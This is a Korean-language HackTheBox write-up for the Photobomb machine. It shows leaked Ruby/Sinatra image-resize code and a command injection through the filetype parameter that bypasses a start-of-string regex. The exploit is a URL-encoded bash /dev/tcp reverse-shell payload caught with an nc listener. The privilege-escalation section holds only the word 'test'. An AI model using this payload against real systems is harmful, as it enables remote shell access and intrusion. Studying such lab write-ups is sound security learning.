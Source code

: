 
# Table of Contents

1.  [취약점 탐색](#search)
2.  [취약점 공격 및 쉘 획득](#attack)
3.  [권한 상승](#escal)

\#-**- mode: org -**-

본 포스트는 HackTheBox의 Photobomb machine을 해결하고 작성한 writeup이다. 문제를 푸는 과정에서는 여러 방법이 있을 수 있다. 따라서 본 포스트에서 설명하는 풀이는 유일한 정답이 아니다.


<a id="search"></a>

# 취약점 탐색

- 주어진 IP로 접속하면 다음과 같은 홈페이지를 확인할 수 있다.
  

- 이미지 다운로드 페이지로 접속하려면 다음과 같이 credential이 필요하다.
   
   
- credential은 다음과 같이 photobomb.js 에서 확인할 수 있다.
   
  
- 이미지 다운로드 페이지에서는 다운로드 받을 이미지와 해상도를 선택하여 다운받을 수 있다.

- 이미지 다운로드 버튼을 클릭하면 아래의 파라미터들이 POST 메소드를 통해 전달된다.
  
~~~http
        photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=30x20
        
~~~
  
  
- 여기서 각각의 파라미터들을 배열 형태로 넘기거나 null값을 넘기면 에러가 발생하는데 에러 페이지에서는 이미지 처리 관련 ruby코드의 일부분을 출력한다. (추가적으로 sinatra라는 패키지를 사용하는 것을 알 수 있다.

- 에러를 지속적으로 발생시켜서 출력되는 코드의 일부분들을 조합하여 정리하면 이미지 resize 및 다운로드와 관련된 코드들을 어떻게 동작하는지 확인이 가능하다.

~~~rb
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end

  if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end

  if !dimensions.match(/^[0-9]+x[0-9]+$/)
    halt 500, 'Invalid dimensions.'
  end

  case filetype
  when 'png'
    content_type 'image/png'
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end
~~~

- 상기한 코드를 확인하면 filename은 이미지 원본의 이름, 해상도, 파일 확장자로 구성되고

~~~rb
filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 이 filename은 command의 맨 마지막에 붙는다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
~~~

- 따라서 command의 맨 마지막에 붙는 부분은 filetype 변수이다.

~~~rb
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
~~~

- 결과적으로 command의 마지막 부분에 &&등을 붙이고 뒤에 리버스 쉘을 실행하는 명령어 (bash -c 'bash -i >& /dev/tcp/ip/port 0>&1')를 붙이면 될 것으로 예상했다.



<a id="attack"></a>

# 취약점 공격 및 쉘 획득

- 우선 netcat 명령어를 로컬 PC의 터미널에서 실행하고

~~~shell
[hackryptic@Hackryptic-PC-1 ~]$ nc -lvnp port
~~~

- filetype 파라미터에 명령어 부분을 직접 넣으면

~~~http
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

- Invalid Filetype. 이라는 에러가 발생한다.

- 이 에러는 다음과 같은 filetype을 체크하는 정규표현식 부분을 통과하지 못해서 발생하는데

~~~rb
if !filetype.match(/^(png|jpg)/)
    halt 500, 'Invalid filetype.'
  end
~~~

- 문자열의 시작 부분에 png나 jpg가 존재하는가에 대해서만 체크하기 때문에 이 조건만 만족시켜서 다시 파라미터 값을 작성하면 (앞쪽에 jpg만 붙이고 동일하게 작성하면 된다.)

~~~http
hoto=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%26%26bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%27&dimensions=30x20
~~~

~~~shell
wizard@photobomb:~/photobomb$
~~~


<a id="escal"></a>

# 권한 상승

- test



